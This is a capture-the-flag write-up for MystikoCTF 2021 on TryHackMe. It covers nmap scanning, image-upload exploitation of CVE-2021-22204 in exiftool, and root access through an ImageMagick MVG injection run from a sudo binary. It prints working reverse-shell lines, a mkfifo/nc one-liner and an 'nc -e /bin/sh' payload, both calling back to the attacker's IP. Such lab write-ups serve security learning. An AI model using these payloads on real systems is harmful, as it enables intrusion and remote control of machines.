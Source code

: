<img src="Screenshots/photo_2021-02-10_22-58-30.jpg" style="margin-left: 300px; zoom: 30%;" /> 

<font size="8" color="green">MystikoCTF 2021</font>

<font size="3" color="grey">Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021</font> 

<font size="3" color="white">Description:</font>

> This is my writeup for the recent ctf hosted by Mystiko, the CTF was hosted on TryHackMe and was too much fun, So I would like to thank the team for making this really challenging and also for the great machine.
---

<font size="3" color="white">CTF Name: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)</font>

<font size="3" color="white"> Difficulty: </font><font size="3" color="orange">Medium</font>

<font size="3" color="white">THM Account: [AB2](https://tryhackme.com/p/AB2)</font>

<font size="3" color="white">Email: ab2pentest@tuta.io</font>

<font size="3" color="white">Document Author: [AB2](https://twitter.com/ab2pentest)</font>

<font size="3" color="white">Final ScoreBoard:</font>

<img src="Screenshots/2021-11-22_16-45-37.png"/>

I unfortunately didn't have much time for the CTF, but I ended up sharing the third position with `cryptonic007`.

---

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

So as a start and as usual we should run nmap:

```bash
> nmap -sC -sV 10.10.206.211 -vvv                                             
```
We got 2 opened ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

<img src="Screenshots/2021-11-22_16-15-23.png"/> 

We have a kind of images uploader, I opened the source page to see if there is anything hidden as comments but there were nothing, and I also confirmed that its accepting only images.

<img src="Screenshots/2021-11-22_16-17-33.png"/>

I had to upload an image and go to burpsuite, to see what going on actually

<img src="Screenshots/2021-11-22_16-21.png"/>

I tried to manipulate the file extension and also the Mime Type with multiple methods but nothing was working, but I eventually noticed something in the response

<img src="Screenshots/2021-11-22_16-22.png"/>

And that was a hidden HTML headings that has some output from the picture I uploaded (mime type,size,image size) and also was starting with a weird `10.61` that looks like a version number !

So I thought probably doing exiftool job, so I had to look for a recent vulnerability of exiftool `CVE-2021-22204` that I had never the chance to try it ... 

# Foothold

I tried multiple public cve's and I eventually ended up with a working one

https://github.com/bilkoh/POC-CVE-2021-22204

Using this command line I was able create the evil picture

<img src="Screenshots/2021-11-22_16-52-54.png"/>

So the picture will download a file `shell.sh` from my attacking webserver and run it

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

<img src="Screenshots/2021-11-21_13-29-19.png"/>

So after I set my listener and I uploaded the file I succeeded in getting a reverse shell 

<img src="Screenshots/2021-11-22_16-56-09.png"/>

Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

<img src="Screenshots/2021-11-21_13-29-07.png"/>

# Privilege Escalation

The first thing I ever do is typing `sudo -l`, to check if there is any commands I can execute with sudo.

<img src="Screenshots/2021-11-21_13-30-34.png"/>

Great ! we have a binary named pixel I copied the binary to my machine for some reversing ...

<img src="Screenshots/2021-11-21_13-31-02.png"/>

I also opened it in ghidra, but nothing was too interesting

<img src="Screenshots/2021-11-22_17-19-53.png"/>

Then I had to run the binary in my machine to see what this thing is doing actually ...

<img src="Screenshots/2021-11-21_13-31-10.png"/>

Kind of an Image Toolkit created by `SIXER` team, I choosed to convert an image to a PDF file and see what will happen ...

<img src="Screenshots/2021-11-21_13-32-36.png"/>

The `Generating PDF` line show us that the binary is using another binary `/usr/local/bin/convert` to convert the image to a PDF file, and I recently just had an experience with the 2016's `convert` exploit, so I quickly go back the Pixel machine and check for the `convert` version

<img src="Screenshots/2021-11-21_13-33-01.png"/>

And yes ! the version was vulnerable, so by google `ImageMagick exploit` you will get a bunch of articles that explains this vulnerability and shows multiple ways to exploit it.

So I went with this steps:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
<img src="Screenshots/2021-11-21_13-27-19.png"/>

2) Set my listener on port 9009:

  ```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

<img src="Screenshots/2021-11-21_13-32-36.png"/>

4) Going back to my listener to check if I got a reverse shell:

<img src="Screenshots/2021-11-21_13-35-30.png"/>

And yes ! I was root and able to read the second flag `proof.txt`

<img src="Screenshots/2021-11-22_17-34-28.png"/>

---
Hope you enjoyed my writeup like I enjoyed playing the CTF.

Regards,
AB2.
